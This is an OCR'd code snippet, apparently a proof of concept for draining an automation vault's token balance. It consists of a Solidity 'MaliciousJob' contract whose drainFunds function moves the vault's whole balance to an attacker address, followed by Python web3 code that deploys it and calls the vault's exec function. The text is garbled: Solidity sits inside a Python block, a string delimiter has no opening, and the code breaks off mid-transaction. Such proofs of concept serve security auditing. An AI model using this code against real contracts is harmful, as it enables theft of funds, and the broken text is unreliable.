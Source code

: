 ```python
pragma solidity ^0.8.19;

contract MaliciousJob {
    address public automationVault;
    address public token;
    address public attacker;

    constructor(address _automationVault, address _token, address _attacker) {
        automationVault = _automationVault;
        token = _token;
        attacker = _attacker;
    }

    // Malicious function to drain funds
    function drainFunds() external {
        // Access the token from the vault and transfer it to the attacker
        uint256 balance = IERC20(token).balanceOf(automationVault);
        IERC20(token).transferFrom(automationVault, attacker, balance);
    }
}
"""

compiled_contract = compile_source(malicious_job_source)
contract_interface = compiled_contract["<stdin>:MaliciousJob"]

# Deploy the MaliciousJob contract
MaliciousJob = web3.eth.contract(abi=contract_interface["abi"], bytecode=contract_interface["bin"])
tx = MaliciousJob.constructor(vault_address, token_address, attacker_account.address).buildTransaction({
    "from": attacker_account.address,
    "nonce": web3.eth.getTransactionCount(attacker_account.address),
    "gas": 3000000,
    "gasPrice": web3.eth.gasPrice,
})

# Sign and send the transaction
signed_tx = web3.eth.account.signTransaction(tx, attacker_private_key)
tx_hash = web3.eth.sendRawTransaction(signed_tx.rawTransaction)
print(f"MaliciousJob contract deployment tx hash: {tx_hash.hex()}")

# Wait for the transaction to be mined
web3.eth.waitForTransactionReceipt(tx_hash)

# Retrieve the deployed contract's address
deployed_contract = web3.eth.contract(address=web3.eth.getTransactionReceipt(tx_hash)["contractAddress"], abi=contract_interface["abi"])

# Prepare the exec data
job_data = web3.toHex(web3.keccak(text="drainFunds()")[0:4])  # Function selector for drainFunds()
exec_data = {
    "job": deployed_contract.address,
    "jobData": job_data,
}

# Prepare the attack transaction
tx = vault_contract.functions.exec(
    attacker_account.address,
    [exec_data],
    []
).buildTransaction({
    "from": attacker_account.address,
    "nonce": web3.eth.getTransactionCount(attacker_account.address),
    "gas": 300000,
```